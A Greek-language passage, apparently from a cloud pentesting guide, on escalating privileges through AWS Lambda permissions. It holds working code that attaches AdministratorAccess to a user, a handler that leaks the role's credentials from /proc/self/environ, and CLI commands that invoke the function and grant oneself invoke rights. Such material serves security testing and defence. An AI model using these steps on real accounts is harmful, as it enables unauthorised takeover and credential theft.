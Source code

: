 Αν ο ρόλος του lambda είχε αρκετά δικαιώματα, θα μπορούσατε να το χρησιμοποιήσετε για να σας χορηγήσει δικαιώματα διαχειριστή:
```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
Είναι επίσης δυνατή η διαρροή των διαπιστευτηρίων ρόλου του lambda χωρίς την ανάγκη εξωτερικής σύνδεσης. Αυτό θα ήταν χρήσιμο για **Διακομισμένα Lambdas** που χρησιμοποιούνται σε εσωτερικές εργασίες. Αν υπάρχουν άγνωστες ομάδες ασφαλείας που φιλτράρουν τα αντίστροφα κελιά σας, αυτό το τμήμα κώδικα θα σας επιτρέψει να διαρρεύσετε απευθείας τα διαπιστευτήρια ως έξοδο του lambda.
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**Πιθανή Επίδραση:** Άμεση ανύψωση προνομίων στο καθορισμένο ρόλο υπηρεσίας lambda.

{% hint style="danger" %}
Σημείωση ότι ακόμα κι αν φαίνεται ενδιαφέρον το **`lambda:InvokeAsync`** **δεν** επιτρέπει από μόνο του την εκτέλεση της εντολής **`aws lambda invoke-async`**, χρειάζεστε επίσης το `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Όπως και στο προηγούμενο σενάριο, μπορείτε **να χορηγήσετε στον εαυτό σας την άδεια `lambda:InvokeFunction`** αν έχετε την άδεια **`lambda:AddPermission`**
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στο καθορισμένο ρόλο υπηρεσίας Lambda.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Οι χρήστες με δικαιώματα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:CreateEventSourceMapping`** (και πιθανώς `dynamodb:PutItem` και `dynamodb:CreateTable`) μπορούν να αυξήσουν έμμεσα τα προνόμια ακόμη και χωρίς το `lambda:InvokeFunction`.\
Μπορούν να δημιουργήσουν μια **συνάρτηση Lambda με κακόβουλο κώδικα και να της αναθέσουν έναν υπάρχοντα ρόλο IAM**.
